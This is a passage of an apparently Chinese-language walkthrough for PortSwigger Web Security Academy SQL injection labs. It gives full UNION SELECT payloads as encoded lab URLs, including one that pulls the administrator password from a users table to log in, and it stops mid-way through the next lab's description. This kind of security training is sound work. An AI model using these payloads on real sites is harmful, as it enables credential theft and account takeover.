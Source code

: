 ### 解答
```
https://acf21fab1e725d94c0ff4ee900e7007f.web-security-academy.net/filter?category=123%27%20UNION%20SELECT%20NULL,%27t33quC%27,NULL%20--%20-
```

---

## [Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)
### 題目敘述
 This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 
### 題目解釋
要透過 SQLi 找另外一張表格，叫做 `users`，他的 Column 分別叫做 `username` 跟 `password`，然後需要以 `administrator` 登入。


### 解答

先測試欄位數量，確認有兩個

```
https://accb1f1e1eb490e6c0500d1700440040.web-security-academy.net/filter?category=1%27%20UNION%20SELECT%20NULL,NULL%20--%20-
```

如果是正常的 SQL，我們可以輸入 
```
SELECT password FROM users WHERE username='administrator'
```


所以改成 Union based 的 SQLi 的話，就變成
```
123' UNION SELECT password,NULL FROM users WHERE username='administrator' -- -
```

完整的 URL
```
https://accb1f1e1eb490e6c0500d1700440040.web-security-academy.net/filter?category=123%27%20UNION%20SELECT%20password,NULL%20FROM%20users%20WHERE%20username=%27administrator%27%20--%20-
```

就會發現下面噴出了 administrator 的密碼，用這組密碼搭配 `administrator` 的帳號登入即可過關



## [Lab: SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)
### 題目敘述
 This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

